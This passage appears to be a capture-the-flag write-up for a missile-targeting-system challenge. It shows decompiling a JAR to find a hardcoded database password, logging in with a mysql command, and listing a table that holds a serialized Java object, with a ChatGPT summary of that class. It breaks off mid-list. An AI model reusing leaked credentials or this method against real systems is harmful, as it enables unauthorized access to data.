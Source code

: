 First attempt was to try to decompile Java application found inside nmf-client "missile-targeting-system-2.1.0-SNAPSHOT.jar" During RE process using Java Decompiler and after swift code review we found interesting line:

DriverManager.getConnection("jdbc:mariadb://localhost:3306/missile_targeting_system", "targeter", "cu3xmzp9tzpi00bdqvxq");

Let's try connecting to DB after connecting WireGuard directly from host.

```sh
mysql -u targeter -p -h 10.0.0.1 -P 3306 missile_targeting_system
```
OUTPUT

```sql
mysql> show tables;
+------------------------------------+
| Tables_in_missile_targeting_system |
+------------------------------------+
| messaging                          |
| pointing_mode                      |
| pointing_mode_to_str               |
| satellite_query                    |
| target_coordinates                 |
+------------------------------------+
5 rows in set (0.14 sec)
```
Let's look into satellite_query tabkle:

```
mysql> select * from satellite_query
```
OUTPUT
```sh
| jid | object | results
|   1 | �� sr SatelliteQueryFileFolderUtility������ Z isQueryZisUpdateL pathOrStatementt Ljava/lang/String;xp  t )/opt/SatelliteQueryFileFolderUtility.java         | import java.io.Serializable; <CODE REMOVED>
```

??? info "ChatGPT"
    PROMPT Analyze code using ChatGPT
    ```
    This Java class, SatelliteQueryFileFolderUtility, appears to be a utility for handling either SQL queries/updates or file system operations based on the provided inputs. The key features and functionality are as follows:

    Dual Functionality: It can interact with a database or perform file system operations, determined by the isQuery and isUpdate flags.

    Database Operations:

    Query Execution: If isQuery is true and isUpdate is false, it executes a SQL query using the provided Connection object and returns the result in JSON format.
    Update Execution: If isQuery is true and isUpdate is also true, it executes a SQL update statement.
    File System Operations:
